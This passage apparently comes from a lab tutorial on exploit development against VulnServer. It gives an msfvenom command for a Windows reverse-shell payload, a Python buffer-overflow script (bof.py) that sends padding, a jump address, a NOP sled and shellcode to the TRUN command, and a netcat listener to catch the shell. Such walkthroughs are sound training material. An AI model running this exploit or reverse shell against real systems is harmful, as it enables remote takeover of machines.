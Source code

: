 #### Kali Linux:
msfvenom -p windows/shell_reverse_tcp LHOST=<Kali IP> LPORT=<Kali Port#> EXITFUNC=thread -f c -a x86 -b “\x00”
1. -p: payload; create a windows reverse shell
2. LHOST=<Kali IP>; Listening Host
3. LPORT=<Kali Port#>; 
4. EXITFUNC=thread
5. -f: for file type; creating a C program 
6. -a: architecture; creating for 32bit (x86)
7. -b: for bad character; add in any characters you would like to exclude. 

** Note: I had to change the command a little to get it to work for me, which is the command you see below. **
```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.16 LPORT=4444 EXITFUNC=thread -f c -b '\x00'
```

This will out put the shellcode we need to add to our python script. Take note of the payload size incase it is to big for our uses if doing lots of exploit development. 

create python script bof.py
```
#!/usr/bin/python

import sys, socket

overflow = ("")         # copy over the shell code from msfvenom

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow      # fill memory with 2003 A's, add jump instruction, add nop padding, add shellcode to run 

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```

open a terminal and run NetCat listen for the reverse shell. 

```
# nc -nvlp <port#> 
listening on [any] 4444 …
```

#### Windows 10:
Make sure VulnServer is running as admin, Immunity shouldn’t be needed anymore. 

#### Kali Linux:
run bof.py

check terminal running NetCat and you should have a connection

## More Practice:
https://download.vulnhub.com/brainpan/Brainpan.zip
